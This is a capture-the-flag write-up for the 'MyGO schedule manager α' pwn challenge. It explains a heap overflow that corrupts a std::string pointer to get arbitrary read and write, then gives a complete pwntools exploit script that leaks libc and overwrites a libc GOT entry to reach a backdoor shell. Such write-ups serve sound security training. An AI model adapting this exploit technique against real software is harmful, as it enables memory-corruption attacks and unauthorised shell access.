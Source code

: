 # MyGO schedule manager α
> Author: 堇姬Naup

## analyze
`std::cin` does not limit the input size, and the input is placed into a buffer which have 0x16 size.
So this part have a overflow, and it is on heap chunk.

Let me look this chunk.


We know std::string struct like this.
| offset | description |
|--------|-------------|
| 0x0    | data's pointer |
| 0x8    | vector size |
| 0x10   | vector capacity |
| 0x18   | unused padding or alignment space |

So if we can change data's pointer to anywhere, we will get arbitary write or read.
Use AAR leaklibc.
And use aaw overwrite libc's got(ABS GOT) to backdoor function.

We will jump to win function, and get shell.

## script
```py
from pwn import *
from libs.NAUP_pwn_lib import *
import time
from libs.NAUP_filestructure_lib import *
from libs.NAUP_fmt_lib import *

### This is a CTF pwn templates make by Naup

def s(payload): return r.send(payload)
def sl(payload): return r.sendline(payload)
def sla(after, payload): return r.sendlineafter(after, payload)
def sa(after, payload): return r.sendafter(after, payload)
def rc(num): return r.recv(num)
def rcl(): return r.recvline()
def rcls(num): return r.recvlines(num)
def rcu(payload): return r.recvuntil(payload)
def ita(): return r.interactive()
def cl(): return r.close()
def tsl(): return time.sleep(0.2)

x64_env()

REMOTE_LOCAL=input("local?(y/n):")

if REMOTE_LOCAL=="y":
    r=process('./chal')
    debug_init()
    
else:                                           
    REMOTE_INFO=split_nc("nc 127.0.0.1 51000")

    REMOTE_IP=REMOTE_INFO[0]
    REMOTE_PORT=int(REMOTE_INFO[1])

    r=remote(REMOTE_IP,REMOTE_PORT)

### attach
if input('attach?(y/n)') == 'y':
    p(r)

### heap IO

def login():
    sla(b"Username > ", b"MyGO!!!!!")
    sla(b"Password > ", b"TomorinIsCute")

def create(title, ctx):
    sla(b"< MyGO @ ScheduleManager $ > ", b"1")
    sla(b"MyGO @ sched title > \n", title)
    sla(b"MyGO @ sched content > \n", ctx)

def edit_title(title):
    sla(b"< MyGO @ ScheduleManager $ > ", b"2")
    sla(b"MyGO @ sched title > \n", title)

def edit_content(ctx):
    sla(b"< MyGO @ ScheduleManager $ > ", b"3")
    sla(b"MyGO @ sched content > \n", ctx)

def show():
    sla(b"< MyGO @ ScheduleManager $ > ", b"4")


### exploit

login()
got = 0x403fc8
backdoor = 0x4013ec

create(b"MyGO", b'MyGO')
edit_title(b"MyGO" * 6 + p64(got))

show()

rcu(b"MyGO @ Content : ")
leaklibc = u64(rcl().strip().ljust(8, b"\x00"))
# libcbase = leaklibc - 0x4bf0e0
libcbase = leaklibc - 0x2e80e0
ABS_GOT = libcbase + 0x21a098

edit_title(b"MyGO" * 6 + p64(ABS_GOT))
edit_content(p64(backdoor))

NAUPINFO("LEAKLIBC", hex(leaklibc))
NAUPINFO("LIBCBASE", hex(libcbase))
### interactive
ita()
```
